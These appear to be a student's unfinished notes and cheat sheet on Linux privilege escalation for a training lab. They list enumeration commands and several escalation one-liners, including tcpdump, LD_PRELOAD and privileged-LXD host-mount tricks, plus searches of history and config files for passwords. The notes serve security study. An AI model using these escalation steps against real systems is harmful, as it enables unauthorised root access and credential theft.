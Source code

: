 Linux Prvilage Escalation
=========================
# Cheat Sheet
| **Command** | **Description** |
| --------------|-------------------|
| `ssh htb-student@<target IP>` | SSH to lab target |
| `ps aux \| grep root` | See processes running as root |
| `ps au` | See logged in users |
| `ls /home` | View user home directories |
| `ls -l ~/.ssh` | Check for SSH keys for current user |
| `history` | Check the current user's Bash history |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs |
| `lsblk` | Check for unmounted file systems/drives |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writeable directories |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writeable files |
| `uname -a` | Check the Kernel versiion |
| `cat /etc/lsb-release ` | Check the OS version |
| `gcc kernel_expoit.c -o kernel_expoit` | Compile an exploit written in C |
| `screen -v` | Check the installed version of `Screen` |
| `./pspy64 -pf -i 1000` | View running processes with `pspy` |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump` |
| `echo $PATH` | Check the current user's PATH variable contents |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files |
| `ldd /bin/ls` | View the shared objects required by a binary |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using `LD_PRELOAD` |
| `readelf -d payroll  \| grep PATH` | Check the RUNPATH of a binary |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compiled a shared libary |
| `lxd init` | Start the LXD initialization process |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container |
| `lxc start r00t` | Start the container |
| `showmount -e 10.129.2.12` | Show the NFS export list |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally |
| `tmux -S /shareds new -s debugsess` | Created a shared `tmux` session socket |
| `./lynis audit system` | Perform a system audit with `Lynis` |
# Enviroment Enumeration 
**redo this section**
# Linux Services & Intenals Enumeration
## Questions to ask


    What services and applications are installed?

    What services are running?

    What sockets are in use?

    What users, admins, and groups exist on the system?

    Who is current logged in? What users recently logged in?

    What password policies, if any, are enforced on the host?

    Is the host joined to an Active Directory domain?

    What types of interesting information can we find in history, log, and backup files

    Which files have been modified recently and how often? Are there any interesting patterns in file modification that could indicate a cron job in use that we may be able to hijack?

    Current IP addressing information

    Anything interesting in the /etc/hosts file?

    Are there any interesting network connections to other systems in the internal network or even outside the network?

    What tools are installed on the system that we may be able to take advantage of? (Netcat, Perl, Python, Ruby, Nmap, tcpdump, gcc, etc.)

    Can we access the bash_history file for any users and can we uncover any thing interesting from their recorded command line history such as passwords?

    Are any Cron jobs running on the system that we may be able to hijack? <br>
## Internals
- check which interfaces through which our target system can communicate
- - ip a
- check /etc/hosts
  1. cat /etc/hosts
- users last login
  1. lastlog
- checked logged in users
  1. "w"
- check bash history
  1. history
-find history files
 find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
- cron
1/ ls -la /etc/cron.daily/
## Proc filesystem
The proc filesystem (proc / procfs) is a particular filesystem in Linux that contains information about system processes, hardware, and other system information. It is the primary way to access process information and can be used to view and modify kernel settings. It is virtual and does not exist as a real filesystem but is dynamically generated by the kernel. It can be used to look up system information such as the state of running processes, kernel parameters, system memory, and devices. It also sets certain system parameters, such as process priority, scheduling, and memory allocation.

## Services 
- 1. apt list --installed (can throw some regex to make it pretty see htb)
- Sudo verion
  1. sudo -V
- Binaries
-  1. ls -l /bin /usr/bin/ /usr/sbin/
- **GTFObins**
  1. prvides infor of binaries that can be exploited.
  -https://gtfobins.github.io/
-  for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done


